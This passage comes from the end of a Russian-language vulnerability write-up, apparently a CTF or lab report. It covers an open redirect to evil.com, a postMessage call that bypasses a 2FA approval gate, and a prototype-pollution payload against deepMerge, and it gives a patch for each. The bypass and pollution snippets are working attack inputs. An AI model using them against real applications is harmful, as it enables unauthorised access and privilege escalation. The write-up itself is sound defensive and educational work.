

После ввода корректных учётных данных - редирект на `evil.com`:



---

## [0x14] Vuln 10: Fix

Исправление в `pages/login/LoginPage.tsx` - `next` принимается только если начинается с `/` и не содержит `//` или `/\`:

```tsx
const next = searchParams.get('next') ?? '';
const safeNext =
  next.startsWith('/') && !next.startsWith('//') && !next.startsWith('/\\')
    ? next
    : landing;
navigate(safeNext, { replace: true });
```

Редирект на внешний домен больше невозможен.

---

## [0x15] Vuln 11: postMessage без проверки ev.source (обход 2FA-гейта)

`Preview.tsx` реализует механизм «2FA-гейта»: судья должен нажать кнопку «Утвердить» внутри iframe с превью документа, после чего iframe отправляет `postMessage({type:"approve-ack",ok:true})` в родительское окно, и форма вынесения приговора разблокируется. Обработчик события `message` не проверяет `ev.source` и `ev.origin` - любое окно может отправить `approve-ack` и разблокировать приговор без фактического просмотра документа.

```javascript
window.postMessage({type: 'approve-ack', ok: true}, '*')
```

Форма приговора заблокирована - без утверждения документа кнопка недоступна:



После выполнения postMessage из консоли форма разблокировалась без реального клика «Утвердить»:



---

## [0x16] Vuln 11: Fix

Исправление в `patched-service/.../features/docgen/ui/Preview.tsx` - добавлены проверки `ev.source` и `ev.origin`:

```tsx
const onMessage = (ev: MessageEvent) => {
  if (ev.source !== iframeRef.current?.contentWindow) return;
  if (ev.origin !== 'null' && ev.origin !== window.location.origin) return;
  // ...
};
```

postMessage из постороннего окна игнорируется - форма не разблокируется.

---

## [0x17] Vuln 12: Prototype Pollution через deepMerge

`shared/lib/deepMerge.ts` рекурсивно обходит объект и копирует ключи из источника в целевой объект. Специальные ключи `__proto__`, `prototype` и `constructor` не фильтруются. Пейлоад `{"__proto__": {"isAdmin": true}}` «загрязняет» `Object.prototype` - после вызова `deepMerge` все последующие объекты в JS-рантайме получают свойство `isAdmin: true`.

```javascript
const target = {}
const evil = JSON.parse('{"__proto__":{"isAdmin":true}}')
deepMerge(target, evil)
console.log({}.isAdmin)  // -> true
```



---

## [0x18] Vuln 12: Fix

Исправление в `patched-service/.../shared/lib/deepMerge.ts` - добавлена функция `sanitizeKeys()` которая рекурсивно удаляет запрещённые ключи до выполнения merge:

```typescript
const FORBIDDEN_KEYS = new Set(['__proto__', 'prototype', 'constructor']);

const sanitizeKeys = (value: unknown): unknown => {
  if (!isPlainObject(value)) return value;
  const out: Record<string, unknown> = {};
  for (const [key, val] of Object.entries(value)) {
    if (FORBIDDEN_KEYS.has(key)) continue;
    out[key] = sanitizeKeys(val);
  }
  return out;
};

export const deepMerge = <T extends Record<string, unknown>>(
  target: T,
  source: Record<string, unknown>,
): T => {
  const safeSource = sanitizeKeys(source) as Record<string, unknown>;
  return merge({}, target, safeSource) as T;
};
```

После патча `{}.isAdmin === undefined` - прототип остаётся чистым.

---

## [0x19] Authors

`TakuyaYagam1` & `o1d_bu7_go1d`

---
